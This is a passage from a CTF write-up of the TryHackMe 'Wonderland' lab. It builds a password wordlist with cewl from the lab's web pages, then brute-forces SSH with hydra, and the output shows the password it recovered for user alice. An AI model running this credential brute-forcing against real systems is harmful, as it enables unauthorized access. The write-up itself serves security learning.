 ```bash

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/ > passwords                                                                               
┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r >> passwords   

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/poem >> passwords

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r/a >> passwords

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r/a/b >> passwords

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r/a/b/b >> passwords

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r/a/b/b/i >> passwords

┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cewl -d 1 -m 4 http://10.10.16.97/r/a/b/b/i/t >> passwords
```
next lets make it so all the passwords are unique:

```bash
└─$ cat passwords|sort -u>t
                                                                                             
┌──(nith㉿kastle)-[~/CTF/THM/Wonderland]
└─$ cat t>passwords        
                     
```


Checking how many passwords were added to the list with wc I see that I have 148 unique passwords

```bash
└─$ wc passwords                    
 148  154 1065 passwords

```

## ssh bruteforce with hydra

With these lists I am able to bruteforce alice's password quickly with hydra:

```bash
└─$ hydra -L usernames -P passwords 10.10.16.97 ssh 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-02 14:45:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1470 login tries (l:10/p:147), ~92 tries per task
[DATA] attacking ssh://10.10.16.97:22/

[STATUS] 164.00 tries/min, 164 tries in 00:01h, 1308 to do in 00:08h, 14 active
[22][ssh] host: 10.10.16.97   login: alice   password: HowDothTheLittleCrocodileImproveHisShiningTail
[STATUS] 157.00 tries/min, 471 tries in 00:03h, 1001 to do in 00:07h, 14 active

```